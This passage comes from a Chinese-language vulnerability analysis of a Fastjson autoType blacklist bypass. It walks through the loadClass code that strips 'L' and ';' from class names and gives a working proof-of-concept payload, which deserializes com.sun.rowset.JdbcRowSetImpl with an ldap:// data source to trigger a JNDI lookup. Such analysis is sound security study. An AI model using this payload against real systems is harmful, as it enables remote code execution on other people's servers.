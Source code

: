 ```java
//defaultJSONParser#parseObject
return deserializer.deserialze(this, clazz, fieldName);  //MiscCodec.deserialze
```

之后进入下一轮循环，也就是反序列化com.sun.rowset.JdbcRowSetImpl

就不在这写了，都是这个流程。



## autoTypeSupport参数为true

如果autoTypeSupport开启的情况下，跟进流程图可以看到先过黑白名单之后才加载和返回类。

在上面分析时，我们也能注意到，在loadClass中有对传入类名的处理，对数组类进行处理，把`L`，`;`，[，直接去掉后加载，这里绕过黑名单很容易。

```java
public static Class<?> loadClass(String className, ClassLoader classLoader) {
    if (className == null || className.length() == 0) {
        return null;
    }

    Class<?> clazz = mappings.get(className);

    if (clazz != null) {
        return clazz;
    }

    if (className.charAt(0) == '[') {
        Class<?> componentType = loadClass(className.substring(1), classLoader);
        return Array.newInstance(componentType, 0).getClass();
    }

    if (className.startsWith("L") && className.endsWith(";")) {
        String newClassName = className.substring(1, className.length() - 1);
        return loadClass(newClassName, classLoader);
    }
```

payload

```java
public class FastJsonBypass1 {
    public static void main(String[] args) throws Exception {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);   //开启autoTypeSupport参数
        String s = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://localhost:10389/cn=Exp,dc=example,dc=com\",\"autoCommit\":0}";

        JSONObject jsonObject = JSON.parseObject(s);
        //Class
    }
}
```